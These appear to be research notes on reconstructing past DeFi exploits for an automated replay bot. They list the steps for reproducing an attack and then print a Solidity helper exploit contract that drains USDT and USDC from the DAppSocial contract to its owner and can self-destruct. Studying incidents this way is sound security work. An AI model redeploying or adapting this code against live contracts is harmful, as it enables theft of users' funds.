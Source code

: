 

- setup: creation + funding
- inputs: amounts, addresses, etc
- context: may-be the attack works only when the target protocol is in a particular state

how to:
- deploy duplicate?
- setup duplicate?
- deploy dependencies?
- setup dependencies?
- trigger exploit?
  - guess entry point selector?
  - guess fn signature?
  - guess fn input arguments?

bot:
- fetch prev tx / contracts
- simulate contract

\href{https://explorer.phalcon.xyz/tx/eth/0xbd72bccec6dd824f8cac5d9a3a2364794c9272d7f7348d074b580e3c6e44312e}{DAppSocial}

inputs: DappSocial address is not in the runtime nor creation bytecode of any contract (attack / helper)

\subsection{On creation}

\begin{lstlisting}[language=Solidity]
contract HelperExploitContract {
    IUSDT private constant USDT = IUSDT(0xdAC17F958D2ee523a2206206994597C13D831ec7);
    IERC20 private constant USDC = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    IDAppSocial private constant DAppSocial = IDAppSocial(0x319Ec3AD98CF8b12a8BE5719FeC6E0a9bb1ad0D1);
    address payable private immutable owner;

    constructor() {
        owner = payable(msg.sender);
    }

    // 0x42c59677 exploit function
    function exploit(address token, bool withdraw) external {
        require(msg.sender == owner, "Only owner");
        if (withdraw == true) {
            if (token == address(USDT)) {
                DAppSocial.withdrawTokens(address(token), USDT.balanceOf(address(DAppSocial)));
                USDT.transfer(owner, USDT.balanceOf(address(this)));
            } else {
                DAppSocial.withdrawTokens(address(token), USDC.balanceOf(address(DAppSocial)));
                USDC.transfer(owner, USDC.balanceOf(address(this)));
            }
        } else {
            DAppSocial.lockTokens(owner, 0);
        }
    }

    function killMe() external {
        require(msg.sender == owner, "Only owner");
        selfdestruct(owner);
    }
}
\end{lstlisting}


